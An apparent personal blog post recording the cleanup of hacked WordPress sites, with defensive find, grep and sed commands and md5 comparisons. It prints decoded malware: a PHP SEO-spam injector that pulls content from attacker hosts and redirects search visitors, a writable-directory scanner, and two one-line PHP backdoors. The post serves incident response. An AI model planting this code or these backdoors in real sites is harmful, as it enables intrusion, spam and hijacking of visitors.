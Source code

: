 ```yaml
---
layout: post
title: "Wordpress security cleanup notes"
date: 2015-03-13 19:31:53 -0400
comments: true
categories: ["security","wordpress"]
---
```

Infected PHP Pages:
I've been looking for infected php pages with this command:
{% highlight bash %}
find . -name "*.php" | xargs grep "gzinflate(base64_decode"
{% endhighlight %}
Basically, there's malicious code inserted into the beginning of the php script and it is base64 enconded and compressed so if you look at the file, the first line looks like garbarge.  There's a backdoor on the system that keeps it coming back. I remove it with the following one liner:
<!-- more -->
{% highlight bash %}
find -name "*.php" -exec sed -i '/<?.*eval(gzinflate(base64.*?>/ d' '{}' \; -print
{% endhighlight %}
Here's the code uncompressed and decoded:
{% codeblock lang:perl %}
<?php
<?php if (!defined('frmDs')) {
    define('frmDs', 1);
    error_reporting(0);
    function frm_dl($url) {
        if (function_exists('curl_init')) {
            $ch = curl_init($url);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            $out = curl_exec($ch);
            if (curl_errno($ch) !== 0) $out = false;
            curl_close($ch);
        } else {
            $out = @file_get_contents($url);
        }
        return trim($out);
    }
    function frm_crpt($in) {
        $il = strlen($in);
        $o = '';
        for ($i = 0;$i < $il;$i++) $o.= $in[$i] ^ '*';
        return $o;
    }
    function frm_getcache($tmpdir, $link, $cmtime, $toe = false) {
        $f = $tmpdir . '/sess_' . md5(preg_replace('/^http:\/\/[^\/]+/', '', $link));
        $fe = file_exists($f);
        if (!$fe || time() - filemtime($f) > 60 * $cmtime) {
            $dlc = frm_dl($link);
            if ($fe && $dlc === false) @touch($f);
            else {
                if ($fe && empty($dlc) && $toe) {
                    @touch($f);
                } else {
                    if ($fp = @fopen($f, 'w')) {
                        fwrite($fp, frm_crpt($dlc));
                        fclose($fp);
                    } else {
                        return $dlc;
                    }
                }
            }
        }
        $fc = @file_get_contents($f);
        return ($fc) ? frm_crpt($fc) : '';
    }
    function frm_isbot() {
        $ua = @strtolower($_SERVER['HTTP_USER_AGENT']);
        if (($lip = ip2long($_SERVER['REMOTE_ADDR'])) < 0) $lip+= 4294967296;
        $rs = array(array(3639549953, 3639558142), array(1089052673, 1089060862), array(1123635201, 1123639294), array(1208926209, 1208942590), array(3512041473, 3512074238), array(1113980929, 1113985022), array(1249705985, 1249771518), array(1074921473, 1074925566), array(3481178113, 3481182206), array(2915172353, 2915237886), array(2850291712, 2850357247));
        foreach ($rs as $r) if ($lip >= $r[0] && $lip <= $r[1]) return true;
        if (!$ua) return true;
        $bots = array('googlebot', 'bingbot', 'slurp', 'msnbot', 'jeeves', 'teoma', 'crawler', 'spider');
        foreach ($bots as $b) if (strpos($ua, $b) !== false) return true;
        $h = @gethostbyaddr($_SERVER['REMOTE_ADDR']);
        $hba = array('google', 'msn', 'yahoo');
        if ($h) foreach ($hba as $hb) if (strpos($h, $hb) !== false) return true;
        return false;
    }
    function frm_tmpdir() {
        $fs = array('/tmp', '/var/tmp', './wp-content/cache', './wp-content/uploads', './tmp', './cache', './images');
        foreach (array('TMP', 'TEMP', 'TMPDIR') as $v) {
            if ($t = getenv($v)) {
                $fs[] = $t;
            }
        }
        if (function_exists('sys_get_temp_dir')) {
            $fs[] = sys_get_temp_dir();
        }
        $fs[] = '.';
        foreach ($fs as $f) {
            $tf = $f . '/' . md5(rand());
            if ($fp = @fopen($tf, 'w')) {
                fclose($fp);
                unlink($tf);
                return $f;
            }
        }
        return false;
    }
    function frm_seref() {
        $r = @strtolower($_SERVER["HTTP_REFERER"]);
        $ses = array('google', 'bing', 'yahoo', 'ask', 'aol');
        foreach ($ses as $se) if (strpos($r, $se . '.') != false) return true;
        return false;
    }
    function frm_havekey($s = false) {
        $nks = explode('|', 'abilify|albenza|aldactone|amoxil|antabuse|apcalis|atarax|baclofen|bactrim|bimatoprost|buspar|celebrex|celexa|cialis|cipro|clomid|desyrel|diflucan|doxycycline|elavil|erectalis|eriacta|erythromycin|finpecia|flagyl|glucophage|inderal|kamagra|lasix|levaquin|levitra|lexapro|megalis|mobic|motilium|nexium|nolvadex|orlistat|paxil|penisole|periactin|premarin|priligy|propecia|proscar|proventil|retin-a|robaxin|seroquel|silagra|sildalis|silvitra|strattera|stromectol|p-force|synthroid|tadacip|tadalis|tadapox|tenormin|tetracycline|topamax|valtrex|ventolin|viagra|vigora|wellbutrin|zanaflex|zenegra|zithromax|sildenafil|tadalafil|vardenafil|zovirax');
        $k = ($s == false) ? @strtolower($_SERVER["HTTP_REFERER"] . $_SERVER["REQUEST_URI"]) : $s;
        if (strpos($k, "site%3A") !== false || strpos($k, "inurl%3A") !== false) return '';
        foreach ($nks as $n) if (preg_match("/(|_)$n(|_)/", $k)) return $n;
        return '';
    }
    function frm_strtonum($Str, $Check, $Magic) {
        $Int32Unit = 4294967296;
        $length = strlen($Str);
        for ($i = 0;$i < $length;$i++) {
            $Check*= $Magic;
            if ($Check >= $Int32Unit) {
                $Check = ($Check - $Int32Unit * (int)($Check / $Int32Unit));
                $Check = ($Check < - 2147483648) ? ($Check + $Int32Unit) : $Check;
            }
            $Check+= ord($Str{$i});
        }
        return $Check;
    }
    function frm_chhash($String) {
        $Check1 = frm_strtonum($String, 0x1505, 0x21);
        $Check2 = frm_strtonum($String, 0, 0x1003F);
        $Check1 >>= 2;
        $Check1 = (($Check1 >> 4) & 0x3FFFFC0) | ($Check1 & 0x3F);
        $Check1 = (($Check1 >> 4) & 0x3FFC00) | ($Check1 & 0x3FF);
        $Check1 = (($Check1 >> 4) & 0x3C000) | ($Check1 & 0x3FFF);
        $T1 = (((($Check1 & 0x3C0) << 4) | ($Check1 & 0x3C)) << 2) | ($Check2 & 0xF0F);
        $T2 = (((($Check1 & 0xFFFFC000) << 4) | ($Check1 & 0x3C00)) << 0xA) | ($Check2 & 0xF0F0000);
        $Hashnum = ($T1 | $T2);
        $CheckByte = 0;
        $Flag = 0;
        $HashStr = sprintf('%u', $Hashnum);
        $length = strlen($HashStr);
        for ($i = $length - 1;$i >= 0;$i--) {
            $Re = $HashStr{$i};
            if (1 === ($Flag % 2)) {
                $Re+= $Re;
                $Re = (int)($Re / 10) + ($Re % 10);
            }
            $CheckByte+= $Re;
            $Flag++;
        }
        $CheckByte%= 10;
        if (0 !== $CheckByte) {
            $CheckByte = 10 - $CheckByte;
            if (1 === ($Flag % 2)) {
                if (1 === ($CheckByte % 2)) {
                    $CheckByte+= 9;
                }
                $CheckByte >>= 1;
            }
        }
        return '7' . $CheckByte . $HashStr;
    }
    function frm_chpr($url, $td) {
        $ch = frm_chhash($url);
        $res = frm_getcache($td, "http://toolbarqueries.google.com/tbr?client=navclient-auto&features=Rank&ch=$ch&q=info:$url", 60 * 24 * 7);
        if (($pos = strpos($res, "Rank_")) !== false) return substr($res, 9, 1);
    }
    function frm_red($k) {
        if (!frm_isbot() && frm_seref()) {
            $r = @urlencode($_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI']);
            $s = @urlencode($_SERVER['HTTP_REFERER']);
            die("<!DOCTYPE html><html><body><script>document.location=(\"http://178.73.212.30/stat/go.php?k=$k&s=$s&r=$r\");</script></body></html>");
        }
    }
    $tdir = frm_tmpdir();
    $isb = frm_isbot();
    $k = frm_havekey();
    $host = preg_replace('/^w{3}\./', '', strtolower($_SERVER['HTTP_HOST']));
    if ($cv = @$_POST[md5($host . 'ch') ]) {
        exit($cv);
    }
    if ($tdir && strlen($host) < 100 && !preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/', $host)) {
        $parg = substr(preg_replace('/[^a-z]+/', '', strtolower(base64_encode(md5($host . 'p1')))), 0, 3);
        $sp = "http://muqypnfsk.kwik.to/stat/feed.php?pa=$parg&h=$host";
        //
        $tp = $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
        if ($isb && ($ppr = frm_chpr($tp)) > 1) {
            $pc = frm_getcache($tdir, $sp . "&a=l&p=" . urlencode($tp) . "&pr=$ppr", 60 * 24);
            if ($pc) die($pc);
        }
        //
        $ruri = strtolower($_SERVER['REQUEST_URI']);
        $pageid = (isset($_GET[$parg])) ? $_GET[$parg] * 1 : 0;
        if ((strpos($ruri, '/?') === 0 || strpos($ruri, '/index.php?') === 0) && $pageid > 0) {
            frm_red($k);
            die(frm_getcache($tdir, $sp . "&p=$pageid", 60 * 24, true));
        }
        if (($ruri == '/' || $ruri == '/index.php') && $isb) {
            $c = frm_getcache($tdir, $sp, 60 * 24);
            if ($c) die($c);
        }
        //
        if ($k && $sdl = frm_getcache($tdir, $sp . "&a=s", ($isb ? 30 : 60 * 24 * 7), true)) {
            if (strpos($sdl, '|' . $ruri . '|') !== false) {
                frm_red($k);
                die(frm_getcache($tdir, $sp . "&a=s&p=" . urlencode($ruri), 60 * 24 * 7, true));
            }
        }
    }
    if ($k) frm_red($k);
}
{% endcodeblock %}
Another issue is with the .htaccess files being written to.  I search for all of the .htaccess files and check for strings that are know to me that are not supposed to be there.
{% highlight bash %}
find . -name "*.htaccess" | xargs grep "windows-media-player"
find . -name "*.htaccess" | xargs grep "moby"
find . -name "*.htaccess" | xargs grep "click"
{% endhighlight %}

The SEO spam was primarilly being generated from a forum directory that was created.  This is what most concerns me, so instead of removing the forum directory, and have it put back by a back door, I changed the permissons on the directory to be 000 or not readable, not writeable and not excutable for user, group and world.  I also changed the ownership to be owned by root and the group to be root so that the webserver can't write over it, or recreate it.  It also returns a 403 Permission denied when someone tries to access it.
{% highlight bash %}
find . -name "forum" | xargs ls -la

./wordpress/domain-one.com/htdocs/forum:
total 20
d--------- 2 root     root     4096 Mar 13 13:19 .
drwxr-xr-x 6 www-data www-data 4096 Mar 13 13:19 ..
-rwxr-xr-x 1 root     root       84 Mar  4 14:47 .htaccess
-rwxr-xr-x 1 root     root     4993 Mar 13 13:19 post.php
{% endhighlight %}

I'm performing md5hashes on a clean install of wordpress and comparing them to the equivilant files on the server.  This one liner, does it for all files in a directory.
{% highlight bash %}
for file in *; do md5sum $file; done
{% endhighlight %}

I found another malicious file called sopka.php
{% highlight bash %}
root@bserver:/var/www/wordpress# locate sopka.php | xargs md5sum
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domain-one.com/htdocs/sopka.php
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domaon-two.com/htdocs/sopka.php
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domain-three.com/htdocs/sopka.php
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domain-four.com/htdocs/sopka.php
{% endhighlight %}
I chmod'd them all 000, this is the contents:
{% codeblock lang:perl %}
<?php
@ini_set('max_execution_time',0);
@set_time_limit(0);
function AllDir($Folder, &$Files){
   $result = scandir($Folder);
   foreach($result as $file){
       if ($file == '.' || $file == '..') continue;
       $FullPath = $Folder . '/' . $file;
       $Files[] = $FullPath;
       if (is_dir($FullPath)) AllDir($FullPath, $Files);}}
$StartDir = getcwd();
$Files = array();
$maxlen='hremjo';
AllDir($StartDir, $Files);
foreach($Files as $wf) {  //echo $wf."\n";
if (is_dir($wf) && is_writable($wf)){
if (strlen($maxlen)<=strlen($wf))$maxlen=$wf;
//echo $wf."\n";
}}echo 'rahui#',$maxlen,'#rahui';
?>
{% endcodeblock %}

There's also these malicous files, called sidebar.php and footer.php, I chmod'd them all to 000
{% highlight bash %}
locate sidebar.php | xargs grep bwinpoker
locate footer.php | xargs grep bwinpoker
{% endhighlight %}

Here are the backdoors:
{% highlight bash %}
<? php if(@md5($_SERVER['HTTP_PATH'])==='5cd2973f835de94b560b62465d5a37f3'){ @extract($_REQUEST); @die($stime($mtime)); } ?> 
{% endhighlight %}
And
{% highlight bash %}
<?php add_action('init', create_function('', implode("\n", array_map("base64_decode", unserialize(get_option("wptheme_opt")))))); ?>
{% endhighlight %}